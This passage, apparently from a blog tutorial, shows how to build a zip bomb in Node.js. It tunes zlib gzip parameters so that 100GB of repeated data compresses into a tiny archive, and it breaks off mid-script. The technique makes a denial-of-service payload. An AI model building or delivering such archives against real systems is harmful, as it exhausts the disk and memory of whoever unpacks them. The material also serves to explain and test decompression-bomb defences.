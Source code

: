 

#### Pause coding
If you try to run the code so far, you will see it will generate an archive that in reality contains 100GB.
Also, if you want proof that we have generated 100GB :
![prooof](/../posts_resources/ZipBomb-in-NodeJS-10TB-to-900KB/real-size.png)

Before we try to move on to the next step (coping this and making archived of those), we should try and see if we can do anything to generate the file faster and make it smaller.

Spoiler:

```javascript
const gzip = zlib.createGzip();
```

If we look at the documentation for **[zlib](https://nodejs.org/api/zlib.html#zlib_zlib_creategzip_options)**, we can see that there is an option to pass some useful parameters :
   * **level: *(compression only)***
   * **memlevel: *(compression only)***
   * **strategy: *(compression only)***

If you then follow the link to the [low-level API](https://zlib.net/manual.html#Advanced), you can see that we can play with those in our advantage:
   * we can increase the **level** to 9 to get the best compression rate
   * increase the **memlevel** to 9 to use more memory during compression
   * set **strategy** to 3 (3 is Run Length Encoding which will greatly benefit us, as we write the same thing over and over again)




```javascript
const fs = require('fs');
const Readable = require('stream').Readable;
const zlib = require('zlib');
const rs = Readable();
const tar = require('tar');


const gzip = zlib.createGzip({
    level: 9,
    memLevel: 9,
    strategy: 3,
});
const wstream = fs.createWriteStream('myfile0.gz');
const levels = 2;
const totalSize = calculateSize(100, "GB");
const chunkSize = calculateSize(50, "MB");
let chunkSizeSoFar = 0;


function calculateSize(number, unit) {
    const sizes = {
        "KB": number * Math.pow(1024, 1),
        "MB": number * Math.pow(1024, 2),
        "GB": number * Math.pow(1024, 3),
    }

    return sizes[unit];
}


rs._read = function () {
    if (totalSize < chunkSizeSoFar - chunkSize) return rs.push(null);

    chunkSizeSoFar += chunkSize
```